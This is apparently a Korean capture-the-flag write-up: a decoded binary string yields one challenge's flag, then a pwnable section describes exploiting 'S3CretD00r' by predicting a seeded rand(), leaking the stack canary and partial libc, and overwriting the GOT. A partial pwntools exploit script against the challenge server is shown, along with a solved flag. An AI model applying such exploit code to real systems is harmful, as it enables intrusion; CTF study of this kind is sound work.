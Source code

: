 010001100100110001000001010001110111101101001001010111110111011100110001011011000110110001011111010001110011000001011111011101000011000001011111010110010011000001110101010111110110110001101001011010110011001101011111010101000110100001100101010111110100011000110001011100100111001101110100010111110101001101101110001100000111011101111101 가 나오는데 이걸 string으로 바꿔주면 된다.

Flag : `FLAG{I_w1ll_G0_t0_Y0u_lik3_The_F1rst_Sn0w}`



## PWNABLE

### S3CretD00r

가위바위보 하는 곳에서 canary를 leak 할 수 있다.

덤으로 libc 3바이트를 구해낼 수 있다.

그리고 admin얻으면 나오는 bof에서 got overwrite를 적당히 해줄 수 있으니까, 덮어서 쓱 하면 된다.

```python
from pwn import *
import ctypes

lib = ctypes.CDLL('/lib/x86_64-linux-gnu/libc.so.6')
lib.srand(0x100)

p = remote('222.110.147.52',2833)#process('./S3CretD00r')
elf = ELF('./S3CretD00r')
libc = elf.libc

p.recvuntil('>> ')
p.sendline('1')

context.log_level='debug'

for i in range(0,15):
    p.recvuntil('>> ')
    com = lib.rand() % 3 + 1
    if com == 1:
        p.sendline('3')
    elif com == 2:
        p.sendline('1')
    else:
        p.sendline('2')

p.recvuntil('>> ')
com = lib.rand() % 3 + 1
if com == 1:
    p.sendline('2')
elif com == 2:
    p.sendline('3')
else:
    p.sendline('1')
pause()
p.recvuntil('>>')
p.sendline('y')

p.recvuntil("[16]")
p.recvline()

leak = ''
for i in range(0,8):
    data = p.recvline()
    data = data[data.find("-> '") + 4:data.rfind("'")]
    leak += data

```